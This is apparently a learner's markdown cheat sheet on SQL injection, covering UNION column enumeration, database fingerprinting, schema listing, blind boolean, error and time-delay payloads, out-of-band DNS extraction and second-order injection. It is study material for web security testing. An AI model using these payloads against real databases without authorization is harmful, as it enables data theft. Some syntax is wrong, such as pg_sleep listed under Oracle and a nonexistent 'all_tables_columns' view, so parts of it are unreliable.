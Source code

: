 ### what is  SQL injection
in this vulnearabilty the malicious sql statement will be inject by the attacker to compromise the database or server

## where to find
* see the parameter were the client send  the request in form GET POst and we use `` ' , \ ) " "'`` etc to manipulate user input and break query.   
* some site use filters to validate client input so we use URL encoded payloads 

## union Query 
for successfully execution union query  we must meet the no. of columns returning 

## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select * from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select * from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |

# Blind sql injection vulnerability

### how to exploit 
1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response
```bash
Query = ' xyz AND "1"="1' 
```
**if get response than xyz if true other wise it DIDN'T get response from server**    or
```bash
Query = ' xyz AND "1"="2'
```

### inducing conditional Response by Triggering SQL Error
```bash
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'
```
**if condition is true server gives us the error if false 
coudnt get error**

##### for Oracle Data base 
```bash
Query= 'xyz \|\| (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \|\| '
```

### exploit BY Generating Delay 
```bash
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'
```
gives 10 second delay in response if condition true else DIDN'T delay in response

##### for oracle DB
```bash
Query = '\|\| pg_sleep(delay in seconds)+--+'
```

### exploit using OUt of band 
in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

# 2nd Order SQL Injection
#### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.